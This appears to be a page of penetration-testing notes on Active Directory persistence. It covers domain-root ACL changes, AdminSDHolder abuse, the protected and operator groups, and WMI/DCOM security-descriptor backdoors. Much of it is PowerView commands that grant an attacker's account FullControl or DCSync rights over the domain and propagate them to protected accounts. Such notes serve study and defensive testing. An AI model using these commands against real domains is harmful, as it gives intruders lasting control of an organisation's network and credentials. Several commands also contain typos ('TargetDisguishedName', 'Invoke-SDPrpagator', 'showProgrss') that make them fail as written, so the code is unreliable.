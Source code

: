- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- A control that holds a blueprint of A  CLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-ObjectAcl -TargetADSPrefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountname student1 -Rights All -Verbose
# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose
```
# Security Descriptors
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User